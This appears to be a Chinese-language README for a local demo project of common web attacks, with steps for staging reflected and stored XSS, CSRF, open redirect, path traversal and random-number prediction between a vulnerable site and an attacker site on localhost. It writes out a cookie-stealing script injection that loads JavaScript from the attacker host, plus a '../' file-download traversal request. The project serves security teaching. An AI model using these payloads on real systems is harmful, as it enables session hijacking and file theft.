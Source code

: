 # websecuredemo
web 应用常见攻击演示demo


1. 本地需要安装一个mysql, 新建一个mytest库, 没有密码
2. 启动bug与attack, 在mytest库的user表里增加一个"1	admin	admin	admin"用户
3. 绑定bug.local到127.0.0.1  |  ata.local 到127.0.0.1
4. 访问 http://ata.local:8081/ 可以看到攻击实例
5. 点击图片测试反射型脚本攻击
6. 登录 http://bug.local:8080/ 测试存储型跨站脚本 新增用户或者修改昵称为 "tc<script type="text/javascript" src="http://ata.local:8081/js/a.js" ></script>", 可以看到数据库中收到了当前用户的cookie, 用另一个用户登录修改cookie更换身份
7. 在bug站登录后, 在ata站点上点击csrf攻击, 看到当前bug站用户昵称被修改
8. 在bug站处于未登录状态, 在ata站点点击url redirect攻击, 看到用户两次输入账号密码, 数据库中csrfuser存有用户数据
9. 文件下载攻击, 在本地e:/test/img/ 下放置一张图片, http://bug.local:8080/download?filename=a.jpg 演示图片下载成功, 在e:/test/pwd/下放置一个txt文件, 演示http://bug.local:8080/download?filename=../pwd/p.txt 窃取成功
10. 密码算法安全, 打开源代码org.hmzb.random.RandomCracker 直接运行main, 演示随机数预测.
